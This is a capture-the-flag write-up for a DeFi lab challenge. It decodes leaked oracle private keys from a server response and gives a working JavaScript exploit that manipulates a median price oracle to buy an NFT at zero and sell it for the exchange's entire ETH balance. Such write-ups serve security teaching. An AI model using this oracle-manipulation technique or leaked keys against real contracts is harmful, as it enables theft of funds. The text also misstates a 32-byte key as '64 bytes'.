 # Compromised

## Challenge

While poking around a web service of one of the most popular DeFi projects in the space, you get a somewhat strange response from their server. This is a snippet:

```bash
HTTP/2 200 OK
content-type: text/html
content-language: en
vary: Accept-Encoding
server: cloudflare

4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
```

A related on-chain exchange is selling (absurdly overpriced) collectibles called "DVNFT", now at 999 ETH each

This price is fetched from an on-chain oracle, and is based on three trusted reporters: `0xA73209FB1a42495120166736362A1DfA9F95A105`,`0xe92401A4d3af5E446d93D11EEc806b1462b39D15` and `0x81A5D6E50C214044bE44cA0CB057fe119097850c`.

Starting with only 0.1 ETH in balance, you must steal all ETH available in the exchange.

## Solution

We see that the only place where the `Exchange.sol` contract is sending funds without much control funds to an external source is when calling its function `sellOne`, through the following operation

```solidity
payable(msg.sender).sendValue(currentPriceInWei);
```

We see that `currentPriceInWei` is the median price of the `DVNFT` provided by the oracles. This means that if we want to drain the exchange, we need to make the median price really high when selling an NFT by manipulating at least two out of the three trusted sources. But first we need to buy one NFT to sell, and since we can modify its selling price too, we can then buy it very cheap and sell for very expensive.

When we examine the response from the server, we see it is in hexadecimal. When decoding it to text, we obtain the following two strings

```bash
MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5

MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4
```

If you are familiar with Javascript, this looks like a base64 encription. By decoding these two values we obtain,

```bash
0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9

0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
```

These values are 64 bytes hexadecimal long, the exact size of private keys in Ethereum. We can verify the address they correspond to by using the `ethers` library

```javascript
wallet1 = new ethers.Wallet(
  "0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9"
)
console.log(wallet1.address) //0xe92401A4d3af5E446d93D11EEc806b1462b39D15

wallet2 = new ethers.Wallet(
  "0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48"
)
console.log(wallet2.address) //0x81A5D6E50C214044bE44cA0CB057fe119097850c
```

Perfect, we have complete control over two of the trusted oracles, and we can perform our attack. This time we will perform the whole attack from the script in [`compromised.challenge.js`](../../test/compromised/compromised.challenge.js), adding the following code

```javascript
it("Exploit", async function () {
  /** CODE YOUR EXPLOIT HERE */
  let wallet1 = new ethers.Wallet(
    "0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9"
  )
  let wallet2 = new ethers.Wallet(
    "0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48"
  )
  wallet1 = await wallet1.connect(ethers.provider)
  wallet2 = await wallet2.connect(ethers.provider)
  const oracle1 = await this.oracle.connect(wallet1)
  const oracle2 = await this.oracle.connect(wallet2)

  // Set Price of DVNFT to 0
  await oracle1.postPrice("DVNFT", ethers.utils.parseEther("0"))
  await oracle2.postPrice("DVNFT", ethers.utils.parseEther("0"))

  // Buy the token for 0 ethers, send value > 0 to pass require
  const AttackedExchange = await this.exchange.connect(attacker)
  const buyTx = await AttackedExchange.buyOne({
    value: ethers.utils.parseEther("0.01"),
  })
  const response = await buyTx.wait()
  const event = response.events.find((event) => event.event === "TokenBought")
  const [, tokenId] = event.args

  // Increase the price of the DVNFT
  await oracle1.postPrice("DVNFT", EXCHANGE_INITIAL_ETH_BALANCE)
  await oracle2.postPrice("DVNFT", EXCHANGE_INITIAL_ETH_BALANCE)

  // Approve and sell the token at the price above
  const AttackerToken = await this.nftToken.connect(attacker)
  AttackerToken.approve(this.exchange.address, tokenId)
  await AttackedExchange.sellOne(tokenId)

  // Set the price of the NFT token to the initial proce
  await oracle1.postPrice("DVNFT", INITIAL_NFT_PRICE)
  await oracle2.postPrice("DVNFT", INITIAL_NFT_PRICE)
})
```

As described, we first create the oracle wallets and connect them to the provider. Then we create signed instances `oracle1` and `oracle2` of the `TrustfulOracle.sol` by these two sources. We can then use teh function `postPrice` to set the price of `DVNFT` to 0 in order to buy. In order to get the `tokenId` of the token we buy, we use the emitted event `TokenBought`. Then we increase the median price of `DVNFT` to the total balance of `Exchange` and we sell the token we had, draining all the funds of it. Since we are nice people, we set the price back to the initial price after the attack.
